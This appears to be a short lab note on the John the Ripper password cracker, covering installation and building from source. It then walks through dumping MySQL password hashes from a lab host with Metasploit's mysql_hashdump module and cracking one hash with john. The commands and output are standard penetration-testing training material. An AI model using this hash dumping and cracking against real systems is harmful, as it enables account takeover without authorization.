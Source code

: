 Hash Cracker, has a lot of different distribution. Most popular distribution is "Jumbo John".

## Install

Per Repository:

```
sudo apt install john
```

Building from Source:

https://github.com/openwall/john/blob/bleeding-jumbo/doc/INSTALL

1.   Use `git clone https://github.com/openwall/john -b bleeding-jumbo john` to clone the jumbo john repository to your current working
2.   Then `cd john/src/` to change your current directory to where the source code is. 
3.  Once you're in this directory, use `./configure` to check the required dependencies and options that have been configured.
4.  If you're happy with this output, and have installed any required dependencies that are needed, use `make -s clean && make -sj4` to build a binary of john. This binary will be in the above run directory, which you can change to with `cd ../run`
5.  You can test this binary using ./john --test

## Usage


## Example

Exploit MySQL with [MetaSploit](metasploit)

```
use auxiliary/scanner/mysql/mysql_hashdump 
options
set RHOSTS 10.10.60.123
set USERNAME root
set PASSWORD password
exploit
```

Output:

```
[+] 10.10.60.123:3306     - Saving HashString as Loot: root:
[+] 10.10.60.123:3306     - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.60.123:3306     - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.60.123:3306     - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.60.123:3306     - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.60.123:3306     - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.60.123:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

And Bruteforce:

```
echo carl:*EA031893AA21444B170FC2162A56978B8CEECE18 > hash.txt
john hash.txt
```